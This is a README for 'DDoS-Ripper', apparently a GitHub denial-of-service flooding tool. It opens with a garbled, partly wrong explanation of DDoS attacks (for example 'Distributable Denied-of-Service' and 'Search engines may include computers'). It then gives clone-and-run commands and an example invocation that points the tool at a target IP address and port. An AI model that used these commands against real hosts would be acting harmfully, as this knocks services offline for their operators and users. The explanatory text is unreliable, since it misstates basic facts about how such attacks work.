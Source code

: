 # DDoS-Ripper

# What is a DDoS Attack?
A Distributable Denied-of-Service (DDOS) attack server that cuts off targets or surrounding infrastructure in a flood of Internet traffic

DDoS attacks achieve effectiveness using multiple compromised computer systems as a source of attack traffic. Search engines may include computers and other network resources such as IoT devices.
From a higher level, the DDOS attack is like an unexpected traffic jam stuck on a highway, preventing regular traffic from reaching its destination.

$ git clone https://github.com/palahsu/DDoS-Ripper
$ cd DDoS-Ripper
$ ls
$ python3 DDOS Ripper.py
$ python3 DDOS Ripper.py -s [ip Address] -t 135 <br>
example: <br>
$ python3 DDOS Ripper.py -s 123.45.67.89 -t 135<br>
